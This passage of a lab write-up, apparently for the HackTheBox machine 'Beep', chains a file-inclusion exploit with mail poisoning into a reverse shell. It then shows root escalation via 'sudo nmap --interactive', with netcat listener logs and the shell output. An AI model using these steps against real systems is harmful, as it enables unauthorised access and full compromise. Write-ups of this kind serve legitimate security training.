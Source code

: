 ```bash

.
250 2.0.0 Ok: queued as 9CFE4D9306
```

Now in combination with the [LFI exploit](https://www.exploit-db.com/exploits/37637) from above we should be able to do RCE. I send the LFI to burp just to make things easier. The mail for the asterisk user can be found in the var mail directory. 

Along with the LFI for the mail append on the cmd to the request, in the below example I send a reverse shell to port 1337, also note the payload is URL encoded.

![image-20210414195136427](/home/boolean/.config/Typora/typora-user-images/image-20210414195136427.png)

However, this only gets a shell as the asterisk user.  To privesc we need to borrow some code from another [exploit](php/webapps/18650.py), this tells us that nmap has the ability to run as sudo without a password. 

```bash
bash-3.2$ sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
whoami
root
```

## Method 3 Direct RCE from Exploit-18650

Running the script as is, after changing the lhost and lport is that it runs into the SSL error. The solution employed by ippsec was to use burp as a proxy, so the rhost becomes localhost, and edit the https to be http. The other alternative is to remove the SSL dependency from the exploit scripts code.

The script fails without a reason, to determine the reason you can send the request to repeater and observe the response which tells us that the extension does not exist. You can find a valid extension is by using the tool sipvicious and reveal extension 233. Note this tool or beep seems to be flakey, it took a while to narrow it down.

After, adapting the script and setting up burp, running the script should be straight forward and return a reverse shell as user asterisk, and you can use the same privesc using nmap to get to user.

```bash
(boolean㉿kalibox)[~/htb/beep-pwnd/ffuf]$ sudo nc -lvnp 443                                                                                                                      1 ⨯
listening on [any] 443 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.7] 36203
id  
uid=100(asterisk) gid=101(asterisk)
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
id 
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
